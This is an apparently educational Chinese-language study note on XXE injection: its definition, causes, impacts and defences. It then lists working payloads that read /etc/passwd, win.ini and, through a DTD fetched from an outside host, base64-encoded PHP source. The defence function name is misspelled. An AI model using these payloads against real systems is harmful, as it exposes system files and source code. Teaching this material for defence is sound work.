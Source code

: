 ## XXE

### 1. 定义

* XXE，全称XML外部实体引入，应用程序在**解析XML输入**时，**没有过滤**XML文件内容或**禁止外部实体的加载**，导致可**加载恶意外部文件**

### 2. 产生原因

> 1. 对上传的xml文件没有过滤
> 2. 没有禁用外部实体的加载

### 3. 危害

> 1. 读取任意文件
> 2. 执行系统命令
> 3. 内网端口扫描
> 4. 攻击内网其他网站

### 4. 防御

> 1. **禁止使用外部实体**，例如`ibxml_disable_entity_loader(true)`
> 2. **过滤**用户提交的**XML数据**，防止出现非法内容

### 5. 漏洞利用

##### a. 本地引用任意文件

```xml-dtd
<!--读取Linux系统-->
#payload：
<?xml version="1.0"?>
<!DOCTYPE note[
    <!ENTITY content SYSTEM "file:///etc/passwd">
    ]>
&content;

<!--读取windows系统-->
#payload：
#读取Windows系统的配置文件
<?xml version="1.0"?>
<!DOCTYPE note[
<!ENTITY content SYSTEM "file:///c:/windows/win.ini">
]>
&content;
```

****

##### b. 远程引用任意文件

```dtd
<!--读取windows系统-->
#payload：
<?xml version="1.0"?>
<!DOCTYPE note[
<!ENTITY % test SYSTEM "http://192.168.71.49:80/1.dtd">
%test;
]>
&xxe;

<!--外部文件1.dtd内容-->
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
```
